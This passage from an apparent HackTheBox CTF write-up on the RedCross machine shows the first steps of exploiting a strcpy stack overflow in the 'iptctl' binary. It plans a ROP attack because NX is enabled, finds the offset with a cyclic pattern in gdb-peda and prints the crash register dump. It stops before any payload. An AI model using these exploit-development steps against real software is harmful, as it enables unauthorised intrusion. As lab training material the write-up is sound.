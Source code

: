 
NX enabled means I can't just drop shellcode on the stack and jump to
it. But with no other protections, I can do a return oriented
programming (ROP) attack.

#### Find Offset

Because I run `gdb` with [peda](https://github.com/longld/peda), I have
access to `pattern_create`:



    gdb-peda$ pattern_create 50
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'



Now I'll start the program with the `-i` for interactive. When prompted
for action, I'll enter "allow" and the pattern. I need the allow to pass
the valid action check. Then, I'll enter a dummy IP for IP:



    gdb-peda$ run -i
    Starting program: /media/sf_CTFs/hackthebox/redcross-10.10.10.113/iptctl -i
    Entering interactive mode
    Action(allow|restrict|show): allowAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
    IP address: 1.1.1.1



On hitting enter, I'm taken to:



    Program received signal SIGSEGV, Segmentation fault.



The status looks like:



    [----------------------------------registers-----------------------------------]
    RAX: 0x7fffffffdf9a ("allowAAA%A1.1.1.1")
    RBX: 0x0
    RCX: 0x7ffff7e70031 (<__strcasecmp_l_sse2+2881>:        test   DWORD PTR [rdi+0x66000016],ecx)
    RDX: 0x11
    RSI: 0x7fffffffde26 ("allowAAA%A1.1.1.1")
    RDI: 0x7fffffffdf9a ("allowAAA%A1.1.1.1")
    RBP: 0x414441412841412d ('-AA(AADA')
    RSP: 0x7fffffffde48 ("A;AA)AAEAAaAA0AAFAAbA\n")   <--
    RIP: 0x400b5e (<interactive+271>:       ret)
    R8 : 0x7fffffffdd57 --> 0x0
    R9 : 0x1
    R10: 0xfffffffffffff482
    R11: 0x7ffff7f58a60 --> 0xfff20cc0fff20cb0
    R12: 0x4007b0 (<_start>:        xor    ebp,ebp)
    R13: 0x7fffffffe090 --> 0x2
    R14: 0x0
    R15: 0x0
    EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x400b57 <interactive+264>:  call   0x4006f0 <strcpy@plt>
       0x400b5c <interactive+269>:  nop
       0x400b5d <interactive+270>:  leave  
    => 0x400b5e <interactive+271>:  ret    
       0x400b5f <main>:     push   rbp
       0x400b60 <main+1>:   mov    rbp,rsp
       0x400b63 <main+4>:   sub    rsp,0x160
       0x400b6a <main+11>:  mov    DWORD PTR [rbp-0x154],edi
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffde48 ("A;AA)AAEAAaAA0AAFAAbA\n")   <--
    0008| 0x7fffffffde50 ("AAaAA0AAFAAbA\n")